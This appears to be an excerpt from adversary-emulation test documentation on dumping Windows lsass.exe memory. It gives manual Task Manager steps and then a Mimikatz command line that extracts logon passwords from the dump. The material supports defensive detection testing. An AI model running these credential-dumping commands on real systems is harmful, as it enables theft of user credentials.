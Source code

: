 **Supported Platforms:** Windows


**auto_generated_guid:** dea6c349-f1c6-44f3-87a1-1ed33a59a607





#### Run it with these steps! 
1. Open Task Manager:
  On a Windows system this can be accomplished by pressing CTRL-ALT-DEL and selecting Task Manager or by right-clicking
  on the task bar and selecting "Task Manager".

2. Select lsass.exe:
  If lsass.exe is not visible, select "Show processes from all users". This will allow you to observe execution of lsass.exe
  and select it for manipulation.

3. Dump lsass.exe memory:
  Right-click on lsass.exe in Task Manager. Select "Create Dump File". The following dialog will show you the path to the saved file.







<br/>
<br/>

## Atomic Test #6 - Offline Credential Theft With Mimikatz
The memory of lsass.exe is often dumped for offline credential theft attacks. Adversaries commonly perform this offline analysis with
Mimikatz. This tool is available at https://github.com/gentilkiwi/mimikatz and can be obtained using the get-prereq_commands.

**Supported Platforms:** Windows


**auto_generated_guid:** 453acf13-1dbd-47d7-b28a-172ce9228023





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_file | Path of the Lsass dump | path | %tmp%&#92;lsass.DMP|
| mimikatz_exe | Path of the Mimikatz binary | string | PathToAtomicsFolder&#92;T1003.001&#92;bin&#92;x64&#92;mimikatz.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
#{mimikatz_exe} "sekurlsa::minidump #{input_file}" "sekurlsa::logonpasswords full" exit
```
